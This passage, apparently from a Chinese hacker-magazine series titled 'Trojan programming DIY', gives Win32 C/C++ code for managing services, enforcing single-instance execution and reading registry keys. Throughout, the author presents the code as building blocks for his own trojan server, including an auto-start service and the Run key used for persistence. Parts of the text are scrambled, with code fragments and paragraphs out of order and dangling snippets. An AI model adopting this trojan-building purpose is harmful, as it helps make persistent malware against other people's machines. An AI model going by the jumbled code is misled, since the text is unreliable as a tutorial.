

图1

图2

##### 获取配置权限

在对服务进行管理设置前，我们需要以相应的权限打开服务，本文通过下面的两个 API 来实现。

```c
SC_HANDLE OpenSCManager(
  LPCTSTR lpMachineName,
  // pointer to machine name string
  LPCTSTR lpDatabaseName,
  // pointer to database name string
  DWORD dwDesiredAccess  // type of access
);

SC_HANDLE OpenService(
  SC_HANDLE hSCManager,
  // handle to service control manager database
  LPCTSTR lpServiceName,
  // pointer to name of service to start
  DWORD dwDesiredAccess
  // type of access to service
);
```

对于系统服务的管理，通常情况下我们是以完全权限打开的。要实现这个功能，我们可以使用下面的代码来操作。

```c
SC_HANDLE scm;
SC_HANDLE service;
if ((scm = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS)) == NULL) {
    printf("OpenSCManager Error!\n");
}
service = OpenService(scm, ServerName, SERVICE_ALL_ACCESS);
if (!service) {
    printf("OpenService error!\n");
}
```

这样，就可以通过 Service 句柄对服务进行各种操作了。

##### 枚举基本服务信息

想要对服务进行设置，就需要知道服务的当前信息。其中对我们有用的通常是以下几项：服务名称、显示名称、启动状态、启动方式和程序路径等。这些信息我们可以通过 API 函数 EnumServicesStatus 来实现，它的原型如下：

```c
BOOL EnumServicesStatus(
  SC_HANDLE hSCManager,
  // handle to service control manager database
  DWORD dwServiceType,
  // type of services to enumerate
  DWORD dwServiceState,
  // state of services to enumerate
  LPENUM_SERVICE_STATUS lpServices,
  // pointer to service status buffer
  DWORD cbBufSize,
  // size of service status buffer
  LPDWORD pcbBytesNeeded,
  // pointer to variable for bytes needed
  LPDWORD lpServicesReturned,
  // pointer to variable for number returned
  LPDWORD lpResumeHandle
  // pointer to variable for next entry
);
```

在上面的代码中，`LPENUM_SERVICE_STATUS lpServices` 是一个结构，其原型如下：

```c
typedef struct _ENUM_SERVICE_STATUS {
  LPTSTR lpServiceName;
  LPTSTR lpDisplayName;
  SERVICE_STATUS ServiceStatus;
} ENUM_SERVICE_STATUS, *LPENUM_SERVICE_STATUS;
```

这个结构中包含服务名称、显示名称、启动状态。虽然它所返回的信息是极为有限的，但它可以一次枚举所有服务信息。在要求不高的情况下，用它还是相当方便的。下面的示例代码可以枚举系统中所有服务的基本信息，实现代码如下所示。

```c
LPENUM_SERVICE_STATUS lpServices = NULL;
DWORD nSize = 0;
DWORD n;
DWORD nResumeHandle = 0;
lpServices = (LPENUM_SERVICE_STATUS)LocalAlloc(LPTR, 64 * 1024);
EnumServicesStatus(scm, SERVICE_WIN32, SERVICE_STATE_ALL,
                   lpServices, 64 * 1024, &nSize, &n, &nResumeHandle);
for (i = 0; i < n; i++) {
    printf("服务名称: %s", lpServices[i].lpServiceName);
    printf("显示名称: %s", lpServices[i].lpDisplayName);
    if (lpServices[i].ServiceStatus.dwCurrentState != SERVICE_STOPPED) {
        printf("启动状态: 已启动\n");
    }
}
```

##### 枚举详细服务信息

如果想要得到更详细的服务信息，我们可以使用另一个 API 函数 QueryServiceConfig 来获得，它的原型如下所示。

```c
BOOL QueryServiceConfig(
  SC_HANDLE hService, // handle of service
  LPQUERY_SERVICE_CONFIG lpServiceConfig,
  // address of service config, structure
  DWORD cbBufSize,
  // size of service configuration buffer
  LPDWORD pcbBytesNeeded
  // address of variable for bytes needed
);
```

其中 `LPQUERY_SERVICE_CONFIG lpServiceConfig` 也是一个结构，它包含指定服务的详细资料，其原型如下所示。

```c
typedef struct _QUERY_SERVICE_CONFIG {
    DWORD  dwServiceType;
    DWORD  dwStartType;
    DWORD  dwErrorControl;
    LPTSTR lpBinaryPathName;
    LPTSTR lpLoadOrderGroup;
    DWORD  dwTagId;
    LPTSTR lpDependencies;
    LPTSTR lpServiceStartName;
    LPTSTR lpDisplayName;
} QUERY_SERVICE_CONFIG, *LPQUERY_SERVICE_CONFIG;
```

很清楚了吧？服务类型、启动类型、程序路径、服务名称、显示名称尽在其中。而下面的示例代码则可以得到程序路径和启动方式，如下所示。

```c
LPQUERY_SERVICE_CONFIG ServicesInfo = NULL;
for (i = 0; i < n; i++) {
    SC_HANDLE service = NULL;
    DWORD nResumeHandle = 0;
    service = OpenService(scm, lpServices[i].lpServiceName, SERVICE_ALL_ACCESS);
    ServicesInfo = (LPQUERY_SERVICE_CONFIG)LocalAlloc(LPTR, 64 * 1024);
    QueryServiceConfig(service, ServicesInfo, 64 * 1024, &nResumeHandle);
    printf("程序路径: %s\n", ServicesInfo->lpBinaryPathName);
    if (2 == ServicesInfo->dwStartType) printf("自动\n");
    if (3 == ServicesInfo->dwStartType) printf("手动\n");
    if (4 == ServicesInfo->dwStartType) printf("禁止\n");
}
```

上面的代码，只要大家根据需要稍加修改，就可以用到自己的程序中了。现在，对于服务信息的显示就算完成了。

##### 启动/停止服务

启动一个服务我们可以用 `StartService` 函数来实现，不过在启动前得先用 `QueryServiceStatus` 检查一下服务的运行状态。具体的实现代码如下所示。

```c
SERVICE_STATUS status;
BOOL isSuccess = QueryServiceStatus(service, &status);
if (!isSuccess) {
    printf("QueryServiceStatus error!\n");
}
if (status.dwCurrentState == SERVICE_STOPPED) {
    isSuccess = StartService(service, NULL, NULL);
    if (!isSuccess) {
        printf("启动服务失败! ");
    }
}
```

下面是停止服务的实现代码。

```c
if (status.dwCurrentState != SERVICE_STOPPED) {
    isSuccess = ControlService(service, SERVICE_CONTROL_STOP, &status);
    if (!isSuccess) {
        printf("停止服务失败! ");
    }
}
```

##### 创建/删除服务

创建服务我们使用的 API 为 `CreateService`，其原型如下所示。

```c
SC_HANDLE CreateService(
    SC_HANDLE hSCManager,
    LPCTSTR  lpServiceName,
    LPCTSTR  lpDisplayName,
    DWORD    dwDesiredAccess,
    DWORD    dwServiceType,
    DWORD    dwStartType,
    DWORD    dwErrorControl,
    LPCTSTR  lpBinaryPathName,
    LPCTSTR  lpLoadOrderGroup,
    LPDWORD  lpdwTagId,
    LPCTSTR  lpDependencies,
    LPCTSTR  lpServiceStartName,
    LPCTSTR  lpPassword
);
```

其中 `DWORD dwStartType` 是指启动方式，有 `SERVICE_AUTO_START`（自动）、`SERVICE_DEMAND_START`（手动）和 `SERVICE_DISABLED`（禁用）3 种方式。此函数的参数比较多，但我们通常只会用到其中的一部分，比如 `SC_HANDLE hSCManager`（用 OpenSCManager 打开的句柄）、`LPCTSTR lpServiceName`（服务名称）、`LPCTSTR lpDisplayName`（显示名称）、`DWORD dwStartType`（启动方式）和 `LPCTSTR lpBinaryPathName`（程序路径），其他的直接赋值为 0 或 `NULL` 就可以了。而下面的代码就可以创建一个名为 LengFeng、路径为 `C:\LengFeng.EXE` 的自启动服务。

```cpp
void CreateServer()
{
    SC_HANDLE scm = NULL;
    SC_HANDLE service = NULL;
    if ((scm = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE)) == NULL)
    {
        printf("OpenSCManager Error");
    }
    service = CreateService(scm, "LengFeng", "LengFeng",
        SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
        SERVICE_AUTO_START, SERVICE_ERROR_NORMAL, "C:\\LengFeng.EXE", 0, 0, 0, 0, 0);
    if (!service)
        printf("服务创建失败");
    CloseServiceHandle(service);
    CloseServiceHandle(scm);
}
```

要实现删除服务则比较容易，我们只要使用 DeleteService 即可实现，其代码如下所示。

```cpp
BOOL DeleteService(SC_HANDLE hService);
```

这里提醒大家一下，`SC_HANDLE hService` 是我们上面用 OpenService 打开的服务句柄，在删除服务前要注意先用启动/停止服务中介绍的方法停止正在运行的服务才可以。

##### 配置启动方式

有时候我们需要对服务的启动方式进行更改，比如将 Telnet 改为自动运行，对已存在的服务进行配置等。我们可以用 ChangeServiceConfig 来实现，其原型如下所示。

```cpp
BOOL ChangeServiceConfig(
    SC_HANDLE hService, // handle to service
    DWORD dwServiceType, // type of service
    DWORD dwStartType,   // when to start service
    DWORD dwErrorControl,
    // severity if service fails to start
    LPCTSTR lpBinaryPathName,
    // pointer to service binary file name
    LPCTSTR lpLoadOrderGroup,
    // pointer to load ordering group name
    LPDWORD lpdwTagId,
    // pointer to variable to get tag identifier
    LPCTSTR lpDependencies,
    // pointer to array of dependency names
    LPCTSTR lpServiceStartName,
    // pointer to account name of service
    LPCTSTR lpPassword,
    // pointer to password for service account
    LPCTSTR lpDisplayName // pointer to display name
);
```

睁大眼睛仔细看一下，上面的代码是不是有点面熟？它的参数跟创建服务的 CreateService 就是一样的嘛！这下就好办了。我们把需要的地方改掉，不需要的放个 `NULL` 或 `SERVICE_NO_CHANGE` 就行了。

为了实现安全的更新配置信息，微软要求在执行 ChangeServiceConfig 之前用 LockServiceDatabase 来锁定服务数据。我测试了一下，有时候虽然会锁定失败，但仍然可以实现对服务配置的更改。下面的示例代码，可以把上面创建的 LengFeng 服务的启动方式改为“禁止”，其实现代码如下所示。

```cpp
SC_LOCK sclLock;
sclLock = LockServiceDatabase(scm);
if (sclLock == NULL)
{
    if (GetLastError() != ERROR_SERVICE_DATABASE_LOCKED)
        printf("LockServiceDatabase error\n");
}
if (!ChangeServiceConfig(
    service,            // handle of service
    SERVICE_NO_CHANGE,  // service type: no change
    SERVICE_DISABLED,   // 这里做了更改
    SERVICE_NO_CHANGE,  // error control: no change
    NULL,               // binary path: no change
    NULL,               // load order group: no change
    NULL,               // tag ID: no change
    NULL,               // dependencies: no change
    NULL,               // account name: no change
    NULL,               // password: no change
    NULL))              // display name
{
    printf("ChangeServiceConfig error\n");
}
UnlockServiceDatabase(sclLock);
```

至此，与系统服务相关的操作，我们就搞个八九不离十了。要想把它们加到自己的木马程序中，我们只要设计一个便于网络传输的结构，然后把代码拷进去就差不多了。在写这个小程序时，我将遇到的问题写在了自己的博客 blog.csdn.net/chinafe 中，有兴趣的读者可以跟我一起讨论，登录黑客防线官方论坛一起讨论也可。

> 【本文涉及的代码（程序），请见随书光盘】

## 木马编程DIY之单实例运行



文/图 冷风 德州科技职业学院

在2002~2003年间有款叫“广外男生”的木马。广外男生有个不大不小的 Bug，如果服务端被运行多次的话，那么客户端就会有多个服务端上线。当然，这并不是说“肉鸡”变多了，而是同一个服务端被多次加载……还有，我写了一个 CMD 窗口的程序，如果运行一个是没问题的，但若运行两个，两个程序像得了疯牛病一样疯狂输出垃圾数据，停都停不了。

```cpp
ExitProcess(0);
}
```

上面的 CreateMutex 函数会创建一个以“LengFeng”命名的互斥对象，当程序的第二个实例运行时，调用 CreateMutex 会返回 ERROR_ALREADY_EXISTS，表示名为“LengFeng”的互斥对象已存在，也就是说程序已经运行。完整的实现代码如下，这里使用了一个循环来禁止程序退出，以便更好地观察效果。

##### 无窗口程序实现

现在我们就来解决这个问题，如何让程序只能运行一个实例。下面我根据程序是否有窗口打开来分别加以介绍。

- 1) 实现思路

这类程序的典型代表就是木马的服务端了。我们想要达到目的，一般都会有这样的想法：程序运行时先检查有没有另一个实例在运行，没有的话就运行自己，有的话就退出自己。

- 2) 编程实现

通常有两种方法可以实现，我们分别进行介绍。

- （A）使用互斥对象

使用 API 函数 CreateMutex 创建命名互斥对象来实现程序互斥是一个比较通用的方法，我们可以在主函数中加入如下代码来实现。

```cpp
HANDLE hObject = CreateMutex(NULL, FALSE, "LengFeng");
if(GetLastError() == ERROR_ALREADY_EXISTS)
{
    CloseHandle(hObject);
    MessageBox(NULL, "程序已经运行!", NULL, NULL);
    ExitProcess(0);
}
while(1)
{}
return 0;
```

```cpp
HANDLE hObject = CreateMutex(NULL, FALSE, "LengFeng");
if(GetLastError() == ERROR_ALREADY_EXISTS)
// 程序已经运行
{
    CloseHandle(hObject);
}
```

- （B）用编译器创建新节

为程序加入一个全局变量，让这个全局变量可被程序的多个实例所共享，每当程序实例运行时就对该全局变量进行修改。通过访问该全局变量，就可以知道有多少个实例在运行了。当然，为了系统的安全和稳定性，默认情况下是不允许这样做的。为了阻止这种事情的发生，系统使用了 copy-on-write（写入时拷贝）机制，不过我们可以使用创建新节的方法来绕过它，实现方法如下。

```cpp
#pragma data_seg("Shared")
int volatile g_lAppInstance = 0;
#pragma data_seg()
```

其中，第一句 `#pragma data_seg("Shared")` 用来创建一个称为 Shared 的新节，第二句 `int volatile g_lAppInstance = 0` 将 g_lAppInstance 放入 Shared 节中，注意此时只有将 g_lAppInstance 初始化，编译器才会将其放入 Shared 节中，否则将放入 Shared 以外的节；第三句指示编译器 Shared 节结束。

不过，仅仅告诉编译器将某些变量放入它们自己的节中，还不足以实现对这些变量的共享，还必须告诉链接程序某个节中的变量是需要加以共享的。若要进行这项操作，我们可以使用链接程序的命令行上的 `/SECTION:` 开关，在冒号的后面，是想要改变其属性的节的名字。在我们的例子中，若要改变 Shared 节的属性，应该创建下面的链接程序开关。

```cpp
#pragma comment(linker, "/section:Shared,RWS")
```

这句代码就可以使编译链接器知道我们的 Shared 节具有读、写、共享的属性，这是我们实现互斥运行的关键所在。这样，我们就可以在应用程序的多个实例之间共享 g_lAppInstance 变量了。下面我们看一下在 SDK 程序中的完整实现代码。

```cpp
#include <windows.h>
#pragma data_seg("Shared")
// 创建新节
int volatile g_lAppInstance = 0;
// 必须有初始化
#pragma data_seg()
// 结束
#pragma comment(linker, "/section:Shared,RWS")
int APIENTRY WinMain(HINSTANCE hInstance,
HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    if(++g_lAppInstance > 1)
    {
        MessageBox(NULL, "程序已经运行!", NULL, NULL);
        ExitProcess(0);
    }
    while(1)
    {}
}
```

回过头来，我们再看看这两种方法，在实现上使用互斥对象比较简单，但功能却不如创建新节的方法强大。不过在无窗口程序中，使用互斥对象还是比较实用的。

##### 基于窗口程序的实现

我们知道，利用 EnumWindows 枚举窗口并结合 FindWindow 查找窗口，然后发送 WM_CLOSE 消息，也可以实现单实例运行，但实现效果不是太好。而使用上面介绍的互斥对象也是可以的，但它的不足之处是不能将已经启动的实例激活。因此，这里我们仍然使用“创建新节”的方法来实现。

我们的目标是一个基于对话框的程序，其效果如图1所示，实现代码如下。



```cpp
#pragma data_seg("Shared")
HWND hwnd = NULL;
#pragma data_seg()
#pragma comment(linker, "/section:Shared,RWS")
```

在对话框 OnInitDialog() 中加入以下代码：

```cpp
if(hwnd == NULL)
{
    hwnd = m_hWnd;
    // 没有其它实例则保存实例句柄
}
else
{
    ::SetForegroundWindow(hwnd);
    // 若有其它实例则激活
}
```

在实际应用中，上面的这些代码完全可以无需修改地加入到自己的程序中，用这种方法实现在感觉上是不是比 `PostMessage(hwnd, WM_CLOSE, 0, 0)` 要文明多了？

> 【本文涉及的代码（程序），请见随书光盘】



## 木马编程DIY之注册表管理



文/图 冷风 德州科技职业学院

在以前的文章中我们分别讨论了系统服务、文件传输、网络文本语音和其他方面的内容，现在我们来讨论注册表在木马中的应用。就我自己感觉，在木马中对注册表的使用并不多，写其他程序时反倒用得不少。不过注册表还是比较重要的，学会它也不会吃亏的。

##### 一些基础

开始前先了解一些基础知识，对后面的工作会方便不少。注册表的组织方式与文件目录比较相似，主要分为根键、子键、键值项3部分。根键有5个，分别为 HKEY_CLASSES_ROOT、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS 和 HKEY_CURRENT_CONFIG，把它们理解为磁盘的5个分区就可以了。子键可以有多个子键和键值项，就像一个目录中可以有多个子目录和多个文件一样。而键值项可以理解为文件，它由3部分组成，分别为名称、类型、数据。

| 类型 | 说明 |
|---|---|
| REG_BINARY | 二进制数据 |
| REG_DWORD | 32位双字数据 |
| REG_SZ | 以0结尾的字符串 |
| REG_DWORD_BIG_ENDIAN | 高位排在低位的双字 |
| REG_EXPAND_SZ | 扩展字符串，可加入变量（如 `%PATH%`） |
| REG_LINK | UNICODE 符号链接 |
| REG_RESOURCE_LIST | 设备驱动程序资源列表 |
| REG_MULTI_SZ | 多字符串 |

注册表数据项的数据类型有8种，但最常用的主要是前3种。有了这些基础，下面我们讨论如何编程实现对注册表的操作。

##### 打开/关闭注册表句柄

在对注册表操作前，应该先打开指定的键，然后通过键的句柄进行操作。打开键句柄可以用 API 函数 RegOpenKeyEx 来实现，其原型如下。

```cpp
RegOpenKeyEx(
  hKey,        // 父键句柄
  lpSubKey,    // 子键句柄
  dwOptions,   // 系统保留，指定为0
  samDesired,  // 打开权限
  phkResult    // 返回打开句柄
);
```

其中打开权限有多种，若想方便的话，可以指定为 KEY_ALL_ACCESS，这样就什么权限都有了。当函数执行成功时，返回 ERROR_SUCCESS。其实例代码如下。

```cpp
HKEY key;
LPCTSTR data = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
if(RegOpenKeyEx(HKEY_LOCAL_MACHINE, data, 0, KEY_ALL_ACCESS, &key) == ERROR_SUCCESS)
{
    /* 需要执行的操作... */
    RegCloseKey(key);
}
```

需要注意的是，在使用后应该调用 RegCloseKey() 函数来关闭句柄。

##### 获取子键/键值信息

在现实的编程操作中，我们常常需要获取子键与键值的信息，比如子键与键值的数量、长度，以及数据的最大长度等，这些信息可以通过 RegQueryInfoKey 函数来获取，它的原型如下。

```cpp
RegQueryInfoKey(
  hKey,                   // 要获取信息的句柄
  lpClass,                // 接受创建键时的Class字符串
  lpcbClass,              // lpClass的长度
  lpReserved,             // 系统保留，指定为0
  lpcSubKeys,             // 子键数量
  lpcbMaxSubKeyLen,       // 子键中最长名称的长度
  lpcbMaxClassLen,        // 子键中最长Class字符串长度
  lpcValues,              // 键值数量
  lpcbMaxValueNameLen,    // 键值项中最大名称的长度
  lpcbMaxValueLen,        // 键值项数据最大长度
  lpcbSecurityDescriptor, // 安全描述符长度
  lpftLastWriteTime       // FILETIME结构，最后修改时间
);
```

```cpp
szKeyName = (char*)malloc(KeySize);
/* 参数定义请参照获取子键/键值信息部分... */
RegEnumKeyEx(hKey, dwIndex, szKeyName, &KeySize, NULL, NULL, NULL, NULL);
// 枚举子键
printf(szKeyName);
}
```

是不是挺吓人的？其实根据实际情况，选择自己需要的就好了，不需要的放个 NULL 就 OK 了。还有一点需要注意，就是它所返回的长度都不包括结尾的 0 字符，所以在使用时应该用长度 + 1。其实例代码如下。

最后需要注意的是，在每次调用 RegEnumKeyEx 前必须重新将 KeySize 的值设为 KeyMaxLen 缓冲区的大小，因为每次函数返回时，KeySize 的值会变成返回的键值名称长度，随着循环次数，这个值会变小，而可能出现无法枚举所有键值项的情况。

```cpp
DWORD dwIndex = 0, NameSize, NameCnt, NameMaxLen, Type;
DWORD KeySize, KeyCnt, KeyMaxLen, DataSize, MaxDataLen;
if(RegQueryInfoKey(key, NULL, NULL, NULL,
&KeyCnt, &KeyMaxLen, NULL, &NameCnt, &NameMaxLen,
&MaxDataLen, NULL, NULL) != ERROR_SUCCESS)
{
    printf("RegQueryInfoKey错误");
    return;
}
```

##### 枚举键值信息

枚举键值信息的方法与枚举子键信息极为相似，可以用 RegEnumValue 函数实现，其函数原型如下。

用的时候套用格式就可以了，不然会很麻烦的。有了这些信息，我们就可以枚举子键和键值的信息了。

```cpp
RegEnumValue(
  hKey,          // 被枚举的键句柄
  dwIndex,       // 子键索引序号
  lpValueName,   // 键值名称
  lpcbValueName, // 键值名称长度
  lpReserved,    // 系统保留，指定为0
  lpType,        // 键值数据类型
  lpData,        // 键值数据
  lpcbData       // 键值数据长度
)
```

##### 枚举子键信息

枚举子键可以用 API 函数 RegEnumKeyEx 来实现，调用 RegEnumKeyEx 时将返回子键的名称、长度和一些相关数据。如果想得到一个键下的全部子键的话，应该循环调用，直到返回 ERROR_NO_MORE_ITEMS 为止，就说明已枚举完了所有数据。其函数原型如下。

其实现代码如下。

```cpp
for(dwIndex = 0; dwIndex < NameCnt; dwIndex++)
// 枚举键值
{
    DataSize = MaxDataLen + 1;
    NameSize = NameMaxLen + 1;
    szValueName = (char *)malloc(NameSize);
    szValueData = (LPBYTE)malloc(DataSize);
    /* 参数定义请参照获取子键/键值信息部分... */
    RegEnumValue(hKey, dwIndex, szValueName,
    &NameSize, NULL, &Type, szValueData, &DataSize);
    // 读取键值
    if(Type == REG_SZ)
    {
        /* 判断键值项类型并做其它操作...... */
    }
    if(Type == REG_DWORD)
    {}
}
```

```cpp
RegEnumKeyEx(
  hKey,              // 被枚举的键句柄
  dwIndex,           // 子键索引序号
